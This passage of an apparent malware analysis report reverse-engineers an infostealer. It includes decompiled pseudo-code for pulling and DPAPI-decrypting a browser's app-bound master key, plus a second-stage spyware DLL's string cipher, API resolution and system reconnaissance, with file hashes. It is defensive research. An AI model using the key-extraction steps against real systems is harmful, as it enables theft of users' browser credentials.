    }
}
```

- **`CoInitializeEx` with `COINIT_APARTMENTTHREADED` (0x2)**: Initializes the COM library for the current thread in a multi-threaded apartment model, required for COM object interaction.
- **`CoCreateInstance`**: Creates a COM server object using the browser-specific CLSID. The use of `CLSCTX_LOCAL_SERVER` indicates the DPAPI service runs as a separate process, providing isolation.
- **`CoSetProxyBlanket`**: Configures security settings for COM communication:
    - **Authentication Level (`0x6` / `RPC_C_AUTHN_LEVEL_PKT_PRIVACY`)**: Ensures all COM method calls are encrypted
    - **Impersonation Level (`RPC_C_IMP_LEVEL_IMPERSONATE`)**: Allows the DPAPI service to operate with the victim's security context
    - **Capabilities (`0x40` / `EOAC_STATIC_CLOAKING`)**: Maintains the original caller's identity through the COM call chain
#### 4.1.6 Master Key Extraction and DPAPI Decryption
With the DPAPI COM interface established, the malware proceeds to extract and decrypt the browser's master encryption key. This multi-stage process involves JSON parsing, base64 decoding, DPAPI decryption, and temporary file storage.
##### Step 1: Local State File Parsing (`sub_1800035c8`)

The function `sub_1800035c8` is responsible for locating the browser's `Local State` file, reading its contents, parsing the JSON structure, and extracting the encrypted master key.
```c
void** sub_1800035c8(void** arg1, void** arg2)
// arg1: Output buffer for the extracted key
// arg2: Pointer to the browser configuration structure

// 1. Construct full path to Local State file
int64_t* localStatePath;
sub_180001120(&localStatePath, &var_78, arg2);
// Combines %LOCALAPPDATA% + browser state path
// Example: C:\Users\<User>\AppData\Local\Google\Chrome\User Data\Local State

// 2. Open the Local State file as an input file stream
void* fileStream;
sub_180001c64(&fileStream, localStatePath, 1, 0x40, 1);
// Opens file in read mode (std::ifstream)

// 3. Check if file opened successfully
if (var_158 != 0) {
    // File stream is valid, proceed with parsing
```
The malware reads the entire `Local State` file into memory and performs string searching to locate the encrypted key:
```c
// 4. Read entire file into memory buffer
void var_d8;  // Buffer to hold file contents
sub_180001200(&var_d8, &var_208, &var_238);
// Reads file stream into string buffer

// 5. Search for the encryption key marker
char var_b8[0x1b] = "\"app_bound_encrypted_key\":\"";
sub_180001428(&var_b8, 0x1b, 0, "\"app_bound_encrypted_key\":\"");

// 6. Locate the key in the JSON structure
char* bufferStart = &var_d8;
if (var_c8_1 >= 0x10)
    bufferStart = var_d8.q;  // Use heap pointer if string is large

int64_t keyOffset = std::_Traits_find<struct std::char_traits<char>>(
    bufferStart, 
    var_c8_1.q,      // Buffer size
    0, 
    &var_b8,         // Search pattern
    var_a8_1);       // Pattern length

if (keyOffset != -1) {
    // Key marker found, extract the value
```
Once the JSON marker is located, the malware extracts the base64-encoded key value:
```c
// 7. Find the end of the key value (next quote character)
    int64_t keyStart = keyOffset + var_a8_1;  // Position after the marker
    
    int64_t keyEnd = std::_Traits_find<struct std::char_traits<char>>(
        bufferStart, 
        var_c8_1.q, 
        keyStart, 
        "\"",        // Search for closing quote
        1);
    
    if (keyEnd == -1) {
        // Malformed JSON - key value not terminated
        memset(arg1, 0, 0x18);  // Return empty result
        goto cleanup;
    }
    
    // 8. Extract the key substring
    char var_58;
    sub_180004804(&var_58, &var_d8, keyStart, keyEnd - keyStart);
    // Extracts substring between quotes
    
    // 9. Base64 decode the extracted key
    int32_t* decodedKey;
    sub_180002d54(&decodedKey, &var_58);
    // Decodes base64 string to binary data
    
    // 10. Validate the decoded key header
    if (*decodedKey != 0x42505041) {  // "APPB" in little-endian
        // Invalid key format - missing DPAPI header
        memset(arg1, 0, 0x18);
        goto cleanup;
    }
    
    // 11. Skip the 4-byte header and copy the encrypted key blob
    sub_1800010a0(arg1, &decodedKey[1], var_220);
    // Copies encrypted key (after "APPB" prefix) to output buffer
}
```

**Key Format Analysis:**
The encrypted key stored in `Local State` follows this structure:
```
Offset  | Size | Description
--------|------|--------------------------------------------------
0x00    | 4    | Magic header: "APPB" (0x42505041 little-endian)
0x04    | N    | DPAPI-encrypted key blob (variable length)
```
- **Magic Header (`0x42505041`)**: The ASCII string "APPB" in reverse byte order, used to identify DPAPI-protected keys
- **Encrypted Blob**: The actual master encryption key, encrypted using the user's Windows DPAPI master key
##### Step 2: DPAPI Decryption via COM Interface
After extracting the encrypted key blob, the malware invokes the DPAPI COM interface to decrypt it:
```c
// Convert the binary key to a BSTR for COM interop
uint8_t* encryptedKeyData;
sub_1800035c8(&encryptedKeyData, &browserConfig);

BSTR encryptedKeyBSTR = SysAllocStringByteLen(
    encryptedKeyData, 
    keyLength);

// Prepare output buffer and flags
BSTR decryptedKeyBSTR = nullptr;
int32_t decryptionFlags = 0x1F;  // CRYPTPROTECT_UI_FORBIDDEN + additional flags

// Call the DPAPI Decrypt method via COM interface vtable
int64_t* comInterface = var_4c8;
HRESULT hr = (*(*comInterface + 0x28))(
    comInterface,           // this pointer
    encryptedKeyBSTR,       // Input: encrypted data
    &decryptedKeyBSTR,      // Output: decrypted data
    &decryptionFlags);      // Flags

if (hr >= 0) {
    // Decryption successful
    // decryptedKeyBSTR now contains the plaintext master key
}
```
**DPAPI Decryption Flags:**
The value `0x1F` represents a combination of flags:
- `CRYPTPROTECT_UI_FORBIDDEN (0x01)`: Suppress any UI prompts
- Additional flags controlling the decryption context

**COM Method Invocation:**
The malware calls the `Decrypt` method through the COM interface's virtual function table:
- **Offset `0x28`**: Points to the `Decrypt` method in the DPAPI COM interface
- **Virtual call mechanism**: Uses the interface pointer's vtable for late binding
##### Step 3: Temporary File Storage
Once decrypted, the plaintext master key is written to a temporary file for later use by credential extraction modules:
```c
// 1. Get the system temporary directory
char tempBuffer[0x104];
memset(&tempBuffer, 0, 0x104);
GetTempPathA(nBufferLength: 0x104, lpBuffer: &tempBuffer);
// Example result: C:\Users\<User>\AppData\Local\Temp\

// 2. Append browser identifier
char* browserName = &var_488;
if (var_470 >= 0x10)
    browserName = var_488.q;

sub_18000c748(&tempBuffer, 0x104, browserName);
// Example result: C:\Users\<User>\AppData\Local\Temp\cc_

// 3. Append the filename "appkey"
sub_18000c748(&tempBuffer, 0x104, "appkey");
// Final result: C:\Users\<User>\AppData\Local\Temp\cc_appkey

// 4. Open file for writing
int32_t* keyFile;
int32_t result = sub_18000ca90(&keyFile, &tempBuffer, "w+");
// Opens file in write mode, creates if doesn't exist

if (result == 0 && keyFile != 0) {
    // 5. Write the decrypted key to disk
    int128_t* keyData = j_operator_new(0x20);  // Allocate 32 bytes
    BSTR decryptedKey = bstrString;
    
    // Copy decrypted key data
    *keyData = *decryptedKey;
    keyData[1] = decryptedKey[1];
    
    // Write to file
    sub_18000d9d8(keyData, 
                  keyLength + 1,    // Size
                  0x20,             // Buffer size
                  keyFile);         // File handle
    
    // 6. Close the file
    fclose(keyFile);
    
    // 7. Clean up
    j_sub_18000c7c8(keyData);  // Free allocated memory
}
```

| Step | Operation                                  | Output                       |
| ---- | ------------------------------------------ | ---------------------------- |
| 1    | Read `Local State` JSON                    | File contents in memory      |
| 2    | Parse JSON for `"app_bound_encrypted_key"` | Offset to key value          |
| 3    | Extract base64 key string                  | Base64-encoded string        |
| 4    | Decode base64                              | Binary encrypted blob        |
| 5    | Validate `APPB` header                     | Encrypted key without header |
| 6    | DPAPI decrypt via COM                      | Plaintext 32-byte master key |
| 7    | Write to `%TEMP%\<browser>_appkey`         | Persistent key file on disk  |
### 4.2 Payload Analysis: net

The second stage payload, downloaded as net64.log, corresponds to the file the loader waits for before proceeding to the final stage. Code analysis indicated this module is loaded temporarily (transient execution) to perform a specific task—likely dropping the micro.zip.
#### 4.2.1 Decryption and Extraction
Consistent with the previous payloads, net64.log is an RC4-encrypted container with a 16-byte header.
1. **Input:** net64.log (497,168 bytes).
2. **Key:** First 16 bytes.
3. **Output:** net.dll (497,152 bytes).

**CyberChef Validation:**  
The decryption process successfully recovered a PE file with the MZ signature.  

```
55f7063754d21af5c292b9225457d7a7
```
```powershell
dir .\net64.log

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        05-12-2025     20:47         497168 net64.log

Get-FileHash .\net64.log

Algorithm       Hash
---------       ----
SHA256          65A7265F4BCC97D596DAE982792F67C9813D7F3D231752175EA48C0D7E53B614

dir .\net.dll

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        06-12-2025     10:32         497152 net.dll

Get-FileHash .\net.dll

Algorithm       Hash
---------       ----
SHA256          ECB963CE7F62EE000597F8409C9739EA582CCB97B120F24DC5BA7BDB8158D2F0
```
#### 4.2.2 File Metadata and Packing (UPX)

Analysis of the decrypted net.dll using **Detect It Easy (DIE)** reveals a significant difference from the previous modules: this binary is packed using **UPX (Ultimate Packer for eXecutables) v4.24**.

Additionally, the compiler metadata identifies **Microsoft Visual Studio 2008 (v9.0)**. This is a significantly older compiler toolchain compared to sys.dll (VS2010) and app.dll (VS2019), suggesting this specific module might be a reused legacy tool or a distinct component within the malware author's toolkit.

| Attribute     | Encrypted File (net64.log)                                       | Decrypted Payload (net.dll)                                      |
| ------------- | ---------------------------------------------------------------- | ---------------------------------------------------------------- |
| **Size**      | 497,168 bytes                                                    | 497,152 bytes                                                    |
| **File Type** | RC4 Encrypted Data                                               | PE64 (DLL)                                                       |
| **Compiler**  | N/A                                                              | MSVC 2008 (Visual Studio 9.0)                                    |
| **Packer**    | N/A                                                              | **UPX 4.24 [NRV, brute]**                                        |
| **SHA-256**   | 65A7265F4BCC97D596DAE982792F67C9813D7F3D231752175EA48C0D7E53B614 | ECB963CE7F62EE000597F8409C9739EA582CCB97B120F24DC5BA7BDB8158D2F0 |


#### 4.2.3 Unpacking (UPX)

The detection of the **UPX 4.24** packer indicated that the binary was compressed using standard executable compression. To restore the original code for analysis, the standard UPX utility was used with the decompress flag (`-d`).
```powershell
upx.exe -d .\net.dll

Ultimate Packer for eXecutables
Copyright (C) 1996 - 2025
UPX 5.0.2       Markus Oberhumer, Laszlo Molnar & John Reiser   Jul 20th 2025

File size         Ratio      Format      Name
   --------------------   ------   -----------   -----------
   1167360 <-    497152   42.59%    win64/pe     net.dll

Unpacked 1 file.
```

The unpacking process was successful, expanding the file from **485.50 KiB** to **1.11 MiB** (1,167,360 bytes). The compression ratio was approximately 42.59%.

| Attribute   | Packed File                                                      | Unpacked File                                                    |
| ----------- | ---------------------------------------------------------------- | ---------------------------------------------------------------- |
| **Size**    | 497,152 bytes                                                    | 1,167,360 bytes                                                  |
| **Packer**  | UPX 4.24                                                         | None                                                             |
| **SHA-256** | ECB963CE7F62EE000597F8409C9739EA582CCB97B120F24DC5BA7BDB8158D2F0 | A17DA3605EF74498716F39D8817A0710981BDBB83D172066348DA47393BB1766 |
```powershell
dir .\net.dll

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        06-12-2025     10:32        1167360 net.dll

Get-FileHash .\net.dll

Algorithm       Hash
---------       ----
SHA256          A17DA3605EF74498716F39D8817A0710981BDBB83D172066348DA47393BB1766
```

#### 4.2.4 Static Analysis (Unpacked Payload)
With the packer removed, a clear view of the binary's structure was obtained.

**1. Compiler & Libraries**  
The metadata confirms the file was compiled using **Microsoft Visual Studio 2008 (v9.0)**. The imports (GDI32.dll, User32.dll) and the Detect It Easy signature scan indicate that this binary is statically linked with **MFC (Microsoft Foundation Classes)**. This explains the relatively large file size (1.11 MiB), as the necessary runtime libraries are embedded directly into the DLL to ensure it runs on older systems without dependency issues.

**2. Exports (The Link to the Loader)**  
The export table reveals three named functions. This is the critical link to the behavior observed in **Section 3.4.9**.

| Ordinal | Function Name   | Address     | Description                                 |
| ------- | --------------- | ----------- | ------------------------------------------- |
| **1**   | **init_engine** | 0x1800012f0 | **Target of the Loader**                    |
| **2**   | main_engine     | 0x180001030 | Likely core logic (unused by loader)        |
| **3**   | stop_engine7    | 0x180001030 | Shutdown routine (shares address with main) |

**Correlation:**  
In the main loader analysis (sys.dll), the function `sub_7ffd55b91790` was called with arguments **(1, 1)**
- **Arg1 = 1:** Execute Export Ordinal #1.
- **Result:** The loader executes **init_engine**.


#### 4.2.5 Analysis of init_engine (Export Ordinal 1)

The init_engine function serves as the primary entry point executed by the loader (sys.dll). Its large stack frame allocation (`0x9fc0` bytes) indicates extensive local data processing and environment preparation.
##### 1. Stack String Initialization
The function begins by zeroing out large buffers on the stack using the memset_ helper (analyzed previously as a compiler-optimized memset). It then constructs obfuscated strings on the stack using strncpy. This technique is used to prevent static analysis tools (like strings.exe) from easily identifying the malware's targets.
- **String 1:** `txozxg32?hgg`
- **String 2:** `f(\\vpzhrvj\\jujkxa32\\`
##### 2. String Decryption (Substitution Cipher)
The malware implements a custom substitution cipher to decrypt these strings at runtime. The logic iterates through the buffer byte-by-byte:

1. **Normalization:** If the character is uppercase (0x41–0x5A), it adds 0x20 to convert it to lowercase.
2. **Indexing:** It subtracts 0x21 (!) from the character value to generate an index.
3. **Substitution:** A large switch statement maps this index to the decrypted character.
4. **Case Restoration:** If the character was originally uppercase, the logic subtracts 0x20 to restore it after substitution.

**Decryption Results:**  
Using a Python script implementing this exact logic (**Figure 14**), the strings were recovered, revealing the path to the Windows Kernel library:
- `f(\vpzhrvj\jujkxa32\txozxg32?hgg -> c:\windows\system32\kernel32.dll`

This confirms the malware is resolving the path to critical system libraries.
```python
#!/usr/bin/env python3
"""
Decryption script for the init_engine() function
Decodes obfuscated strings using character substitution cipher
"""

def decrypt_string(encoded_str):
    """
    Decrypt a string using the substitution cipher from init_engine()
    """
    # Build the substitution map based on the switch cases
    substitution_map = {
        '!': '-', '#': ')', '$': ';', '%': '+', '&': '=', '(': ':', ')': '#', '*': '_', '+': '%', ',': '/', '-': '!', '.': '?', '/': ',',
        ':': '(', ';': '$', '<': ']', '=': '&', '>': '^', '?': '.', '@': '}', '[': '{', ']': '<', '^': '>', '_': '*',
        'a': 'm', 'b': 'q', 'c': 'f', 'd': 'h', 'e': 'x', 'f': 'c', 'g': 'l', 'h': 'd', 'i': 'p', 'j': 's',
        'k': 't', 'l': 'g', 'm': 'a', 'n': 'z', 'o': 'r', 'p': 'i', 'q': 'b', 'r': 'o', 's': 'j', 't': 'k',
        'u': 'y', 'v': 'w', 'w': 'v', 'x': 'e', 'y': 'u', 'z': 'n', '{': '[', '|': '@'
    }
    
    result = []
    for char in encoded_str:
        # Check if uppercase
        is_upper = char.isupper()
        
        # Convert to lowercase for lookup
        lower_char = char.lower()
        
        # Apply substitution
        if lower_char in substitution_map:
            decoded_char = substitution_map[lower_char]
            
            # Restore uppercase if original was uppercase
            if is_upper and decoded_char.isalpha():
                decoded_char = decoded_char.upper()
            
            result.append(decoded_char)
        else:
            # Character not in map, keep as-is
            result.append(char)
    
    return ''.join(result)


def main():
    # The two encoded strings from the binary
    string1 = "txozxg32?hgg"
    string2 = "f(\\vpzhrvj\\jujkxa32\\"
    
    # Test with individual strings
    print("Decrypted strings:")
    print(f"  String 1: '{string1}' -> '{decrypt_string(string1)}'")
    print(f"  String 2: '{string2}' -> '{decrypt_string(string2)}'")


if __name__ == "__main__":
    main()
```
```
Decrypted strings:
  String 1: 'txozxg32?hgg' -> 'kernel32.dll'
  String 2: 'f(\vpzhrvj\jujkxa32\' -> 'c:\windows\system32\'
```
##### 3. Environment Setup & Dependency Loading

After decrypting the string, the function proceeds to set up its execution environment:
1. **Temp Path:** It calls `GetTempPathA` to resolve the user's temporary directory.
2. **Module Resolution:** It uses the decrypted string (kernel32.dll) to obtain a handle to the module via `GetModuleHandleA`.
3. **Fallback Loading:** If the handle is not found, it explicitly loads the library using `LoadLibraryA`.

#### 4.2.6 API Resolution and Environment Preparation

After obtaining the handle to kernel32.dll, the malware proceeds to resolve a massive list of function pointers required for its operation. This dynamic resolution completely hides the malware's capabilities from the Import Address Table (IAT).
##### 1. Bootstrapping (Dynamic API Resolution)
The code decrypts two critical strings using the same substitution cipher to bootstrap the resolution process:

- LxkIorfMhhoxjj -> **GetProcAddress**
- GrmhGpqomouV -> **LoadLibraryW**

It uses the hModule handle (obtained for kernel32.dll in the previous step) to resolve the address of GetProcAddress. Once GetProcAddress is available, it is used to resolve LoadLibraryW. This pair of functions allows the malware to load any DLL and find any function on the system dynamically.
```c
// Pseudo-code logic derived from assembly
char* s1 = Decrypt("LxkIorfMhhoxjj"); // "GetProcAddress"
char* s2 = Decrypt("GrmhGpqomouV");   // "LoadLibraryW"

// Resolve GetProcAddress manually using the kernel32 handle
FARPROC pGetProcAddress = GetProcAddress(hModule, s1);

if (pGetProcAddress) {
    // Resolve LoadLibraryW using the resolved GetProcAddress
    FARPROC pLoadLibraryW = pGetProcAddress(hModule, s2);
    
    // Store these pointers in global variables for later use
    Global_GetProcAddr = pGetProcAddress;
    Global_LoadLibW = pLoadLibraryW;
}
```
##### 2. Context Initialization
The malware proceeds to resolve APIs critical for manipulating the process state.
- **Encrypted:** LxkFyooxzkIorfxjj -> **GetCurrentProcess**

Once decrypted, the code uses GetProcAddress to locate GetCurrentProcess within kernel32.dll. This provides the malware with a pseudo-handle to its own process, required for subsequent operations like token manipulation or memory allocation.
##### 3. System Manipulation
Immediately after resolving the process handle, the malware decrypts JxkIopropkuFgmjj, which resolves to **SetPriorityClass**.
- **Intent:** The malware likely uses this to alter its own priority (e.g., to HIGH_PRIORITY_CLASS). This ensures its threads (such as data harvesting or injection routines) receive CPU precedence over legitimate applications, minimizing interruptions.
##### 4. Resource Access Preparation
The code decrypts LxkArhygxDmzhgxV, which resolves to **GetModuleHandleW**.
- **Intent:** GetModuleHandleW is used to retrieve the base address of the current module (net.dll) from memory. This is a critical step for a **Dropper**, as it needs this base address to locate embedded resources (specifically the encrypted micro.zip payload) relative to the image base.
##### 5. Extensive Capability Loading
Following the initialization, the malware resolves a vast array of APIs across multiple system libraries. The decrypted strings reveal net.dll is a fully-featured **Espionage and Dropper Module**.

**A. Kernel32.dll (Core Operations)**  
The malware resolves over 70 functions from Kernel32, indicating three main capabilities:
- **Process Injection:** VirtualAllocEx, WriteProcessMemory, CreateRemoteThread, GetThreadContext, SetThreadContext. (Evidence of Process Hollowing/Injection).
- **File Dropping:** CreateFileW, WriteFile, CopyFileW, FindResourceW, LoadResource.
- **Anti-Forensics:** SetFileAttributesW (Hiding files), DeleteFileW.

**B. User32.dll (Spyware Capabilities)**  
The malware loads user32.dll (yjxo32?hgg) and resolves:
- **Keylogging:** GetAsyncKeyState.
- **Clipboard Theft:** OpenClipboard, GetClipboardData.
- **Window Recon:** GetForegroundWindow, EnumChildWindows.

**C. WinInet.dll (C2 Communication)**  
The malware loads wininet.dll (vpzpzxk?hgg) and resolves:
- InternetOpenA, InternetConnectA, HttpOpenRequestA, HttpSendRequestA.
- This confirms net.dll communicates directly with the C2 server, likely to exfiltrate the stolen clipboard/keylog data or report the successful drop of micro.zip.

**D. Advapi32.dll (Persistence & Privilege)**  
The malware loads advapi32.dll (mhwmip32?hgg) and resolves:
- **Service Manipulation:** CreateServiceA, StartServiceA.
- **Registry Persistence:** RegCreateKeyExA, RegSetValueExA.
- **Privilege Escalation:** OpenProcessToken, LookupAccountSidW.
#####  API Resolution Summary

The init_engine function resolves a total of **130** Windows APIs across **6** system libraries. The distribution of these functions highlights the module's core focus on system manipulation, networking, and spyware activities.

| DLL Name         | Function Count | Key Capabilities                                                 |
| ---------------- | -------------- | ---------------------------------------------------------------- |
| **kernel32.dll** | **79**         | Process Injection, File Dropping, Thread Hijacking, System Recon |
| **advapi32.dll** | **26**         | Service Creation, Registry Persistence, Privilege Escalation     |
| **wininet.dll**  | **12**         | C2 Communication (HTTP/HTTPS)                                    |
| **user32.dll**   | **10**         | Keylogging, Clipboard Theft, Window Enumeration                  |
| **shlwapi.dll**  | **2**          | Path Manipulation                                                |
| **shell32.dll**  | **1**          | Directory Resolution (SHGetSpecialFolderPathW)                   |
| **TOTAL**        | **130**        |                                                                  |
#### 4.2.7 Reconnaissance and Data Harvesting

After resolving the necessary APIs, the `init_engine` function initiates a reconnaissance phase. This data is gathered sequentially and logged to the payload file (micro.log) as it is collected.
##### Anti-Analysis Check
Before any data collection occurs, the function calls `data_180111858 -> IsDebuggerPresent`. If a debugger is detected (return value 1), the malware terminates.
##### Path Construction and System ID
The function `sub_180001120` is responsible for determining the malware's staging directory. It employs a robust fallback mechanism to ensure a writable path is found, supporting both modern Windows (Vista/10/11) and legacy versions (XP).

**1. Directory Resolution**  
The code first resolves the user's temporary directory path. It then attempts to resolve the `CSIDL_LOCAL_APPDATA (0x1c)` or Roaming directory using the dynamically resolved `SHGetSpecialFolderPathW`.

**2. Path Normalization and Fallback**  
The malware attempts to construct a path pointing to the Roaming folder.
- **Primary Attempt:** It formats the path as `%s\roaming`.
- **Legacy Fallback:** If the primary directory does not exist or cannot be accessed (checked via `sub_180001040`), the code manually manipulates the string buffer to append "Application Data" (constructing `\Application Data`). This specific string manipulation is designed to support Windows XP file structures (`C:\Documents and Settings\<User>\Application Data`).
- **Final Fallback:** If both attempts fail, it reverts to using the standard Temporary Directory.

**3. Target File Creation**  
Once the base directory is established, the malware appends the filename `\micro.log`. This file serves as the container for all harvested data (System ID, Processes, Keylogs) before it is exfiltrated.
```c
// 1. Get Temporary Path
// data_180111900 -> GetTempPathW
Global_GetTempPathW(0x104, &temp_buffer);

// 2. Try to get AppData
// data_180111890 -> SHGetSpecialFolderPathW
// 0x1c = CSIDL_LOCAL_APPDATA
Global_SHGetSpecialFolderPathW(0, &appdata_buffer, 0x1c, 0, temp_buffer);

// 3. Construct Path (Primary)
wsprintf(&base_path, L"%s\\roaming", &temp_buffer);

// 4. Verify Path exists (sub_180001040 acts as a directory check)
if (!DirectoryExists(&base_path)) {
    
    // 5. Fallback for Windows XP (Legacy)
    // Manually writes "\Application Data" into the buffer
    memcpy((char*)rdi_1 + 6, "lication data", 0x1c); 
    
    if (!DirectoryExists(&base_path)) {
        // 6. Last Resort: Use Temp Path
        Global_GetTempPathW(0x104, &base_path);
    }
}

// 7. Final Output: %APPDATA%\micro.log
swprintf(&final_log_path, 0x104, L"%s\\micro.log", &base_path);
return result;
```
##### Operating System Fingerprinting
The function `sub_1800ade20` performs a detailed check of the operating system version by querying specific Windows Registry keys. This ensures the attacker receives precise patch-level information about the compromised host.

**1. Registry Access**  
The code calls `RegOpenKeyExA` (via the resolved pointer data_180111868) to open the key:  
`SOFTWARE\Microsoft\Windows NT\CurrentVersion`.

**2. Version Retrieval and Logic**  
It queries the CurrentVersion value using RegQueryValueExA. The logic then branches based on the result:
- **Windows 8.1 / Server 2012 R2 ("6.3"):**  
    If the version matches "6.3", it queries ProductName, CSDVersion (Service Pack), and CurrentBuildNumber.
    - **Format:** "`%s %s (%s.%s)`" (e.g., "Windows 8.1 Pro Service Pack 1 (6.3.9600)")
- **Modern Versions (Windows 10/11/Server 2016+):**  
    If the version is not "6.3", it performs a more granular check suitable for Windows 10/11 servicing models. It retrieves the Major, Minor, and Build numbers, and specifically queries for **UBR** (Update Build Revision). 
    - **Format:** "%s (%d.%d.%s.%d)" (e.g., "Windows 10 Pro (10.0.19045.2000)")

```c
// Open Registry Key
// data_180111868 -> RegOpenKeyExA
if (RegOpenKeyExA(HKEY_LOCAL_MACHINE, 
    "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion", 
    0, KEY_QUERY_VALUE, &hKey) == ERROR_SUCCESS) 
{
    // Query "CurrentVersion"
    // data_180111910 -> RegQueryValueExA
    RegQueryValueExA(hKey, "CurrentVersion", ... &versionStr, ...);

    // Check if Windows 8.1 / Server 2012 R2
    if (stricmp(versionStr, "6.3") == 0) {
        // Legacy Format: ProductName + CSDVersion + Version + Build
        sprintf(buffer, "%s %s (%s.%s)", productName, csdVersion, versionStr, buildNumber);
    } 
    else {
        // Modern Format (Win10+)
        // Retrieve "UBR" (Update Build Revision) - Hidden String 0x1800efd14
        // Format: ProductName (Major.Minor.Build.UBR)
        sprintf(buffer, "%s (%d.%d.%s.%d)", 
            productName, majorVer, minorVer, buildNumber, UBR);
    }
    
    // data_180111720 -> RegCloseKey
    RegCloseKey(hKey);
}
```
The explicit query for UBR confirms this malware is updated to target modern Windows environments, as UBR is essential for distinguishing between specific cumulative security updates on Windows 10 and 11.
##### Legacy System Profiling & Role Detection
The function `sub_1800abc30` implements a comprehensive system profiling routine. Unlike the previous function (which targeted modern Windows builds), this routine uses the OSVERSIONINFOEX structure to identify specific editions, including legacy environments.

**1. Hardware & Version Retrieval**  
The code first attempts to retrieve the system version.
- **Version:** It calls `GetVersionExA` (via `data_1801119a0`) to fill an `OSVERSIONINFOEXA` structure.
- **Architecture:** It dynamically resolves `GetNativeSystemInfo` from `kernel32.dll`. If this API is unavailable (on very old systems), it falls back to `GetSystemInfo` (`data_180111958`). This ensures it correctly identifies 64-bit architectures even if the malware is running as a 32-bit process (WoW64).

**2. Extensive OS Enumeration**  
The function contains a massive branching logic block that inspects `dwPlatformId`, `dwMajorVersion`, and `dwMinorVersion` to construct a human-readable OS string.
- **Legacy Support:** It explicitly checks for **Windows 95, 98, Me**, and **NT 4.0**, suggesting the codebase is designed for extreme backward compatibility.
- **Version Mapping:**
    - 5.0: Windows 2000
    - 5.1: Windows XP
    - 5.2: Server 2003 (Checks specifically for "R2")
    - 6.0: Vista / Server 2008
    - 6.1: Windows 7 / Server 2008 R2
    - 6.2: Windows 8 / Server 2012

If a specific OS name cannot be determined, or to append precise version details, the code uses a formatting function (sub_1800c7afc, acting as sprintf) to append the raw Major and Minor version numbers to the string.
```c
// Formatting the fallback version string
// sub_1800c7afc -> sprintf / wsprintf
sprintf(buffer, "(%d.%d)_", osInfo.dwMajorVersion, osInfo.dwMinorVersion);
```

**3. Server Role Identification**  
A critical part of this function is distinguishing between user workstations and high-value servers. It opens the registry key `SYSTEM\CurrentControlSet\Control\ProductOptions` and reads the value ProductType.
- **WINNT**: Identified as **Workstation**.
- **LANMANNT** or **SERVERNT**: Identified as **Server** or **Advanced Server**.

Depending on the wSuiteMask bit-flags, it further classifies the machine as "Enterprise Edition," "Datacenter Edition," or "Web Edition."

```c
// 1. Get Version Info
// data_1801119a0 -> GetVersionExA
OSVERSIONINFOEXA osInfo;
osInfo.dwOSVersionInfoSize = sizeof(OSVERSIONINFOEXA);
if (!GetVersionExA(&osInfo)) { ... }

// 2. Get Hardware Info
// Resolves GetNativeSystemInfo dynamically
FARPROC pGetNativeSystemInfo = GetProcAddress(GetModuleHandleW("kernel32.dll"), "GetNativeSystemInfo");
if (pGetNativeSystemInfo) {
    pGetNativeSystemInfo(&sysInfo);
} else {
    // Fallback: data_180111958 -> GetSystemInfo
    GetSystemInfo(&sysInfo);
}

// 3. Construct Identity String
if (osInfo.dwPlatformId == VER_PLATFORM_WIN32_NT) {
    if (osInfo.dwMajorVersion == 5 && osInfo.dwMinorVersion == 2) {
        strcat(buffer, "Microsoft Windows Server 2003");
        // Check for R2, Datacenter, Enterprise bits...
    }
    // ... extensive checks for other versions ...
}

// 4. Check Product Type (Server vs Workstation)
RegOpenKeyExA(..., "SYSTEM\\CurrentControlSet\\Control\\ProductOptions", ...);
RegQueryValueExA(..., "ProductType", ..., typeBuffer, ...);

if (lstrcmpiA("WINNT", typeBuffer) == 0) {
    strcat(buffer, "_Workstation_");
} else if (lstrcmpiA("LANMANNT", typeBuffer) == 0) {
    strcat(buffer, "_Server_"); // Domain Controller or Server
}
```
##### Hardware Profiling (CPU Identification)

The function `sub_1800ae1c0` is responsible for harvesting detailed hardware information directly from the processor. Instead of relying on Windows APIs (like GetSystemInfo), it uses the low-level **CPUID** instruction to query the CPU hardware directly.

**1. CPUID Query Loop**  
The code executes the __cpuid intrinsic with the input 0x80000000 to determine the maximum supported extended function level. It then iterates through the extended functions.

**2. Processor Brand String Extraction**  
The logic specifically checks for CPUID leaves **0x80000002**, **0x80000003**, and **0x80000004**.
- In the x86/x64 architecture, these three leaves return the **Processor Brand String** (e.g., "Intel(R) Core(TM) i9-9900K CPU @ 3.60GHz").
- The function captures the output registers (EAX, EBX, ECX, EDX) from these calls, effectively reconstructing the 48-byte ASCII string that describes the CPU model.

**3. Output Generation**  
The reconstructed string is copied to the output buffer (arg1). This hardware identifier is appended to the system report, providing the attacker with confirmation of the physical or virtual hardware underlying the infected OS.
```c
// 1. Check Max Extended Level
int32_t max_leaf = __cpuid(0x80000000);

// 2. Iterate through Brand String Leaves
for (int i = 0x80000002; i <= 0x80000004; i++) {
    if (i <= max_leaf) {
        // Retrieve 16 bytes of the string per call
        __cpuid(i, &registers); 
        // Store registers to buffer...
    }
}

// 3. Copy resulting string to output arg
strcpy(output_buffer, cpu_brand_string);
```
##### Process Enumeration (`[process]`)
The function `sub_1800ae2e0` implements a comprehensive process reconnaissance module. It iterates through all running processes on the system to map the execution environment and user context. The gathered data is formatted and logged under the header `[process]`.

**1. Snapshot Creation**  
The function initializes by calling CreateToolhelp32Snapshot (via data_180111850) with flags 0x2 (TH32CS_SNAPPROCESS). This creates a snapshot of the system's process list.

**2. Iteration Loop**  
It uses Process32FirstW (data_180111650) and Process32NextW (data_180111920) to traverse the process list entry by entry.

**3. Context Harvesting**  
For each valid process entry, the malware performs a deep inspection:
- **Open Process:** It calls OpenProcess (data_1801115f8) with specific access rights (PROCESS_QUERY_INFORMATION, PROCESS_VM_READ) to obtain a handle.
- **Token Access:** It retrieves the process token using `OpenProcessToken` (data_180111738).
- **User Identification:** It queries the token for the User SID (Security Identifier) using `GetTokenInformation` (data_180111660).
- **Account Resolution:** It resolves the SID to a human-readable username and domain using `LookupAccountSidW` (data_1801116f0).

**4. Data Filtering and Logging**  
The code explicitly filters out the generic "system" process (`sub_1800ca090(..., "system")`) to avoid cluttering the log. For all other processes, it formats the output string as:  
`\n%s:\%s\%s` (Domain : `User \ Process Name`).

This formatted string is then appended to the main log buffer using sub_180032af0, ensuring the attacker receives a clear map of which user accounts are running which applications.
```c
// 1. Create Snapshot
hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

// 2. Iterate Processes
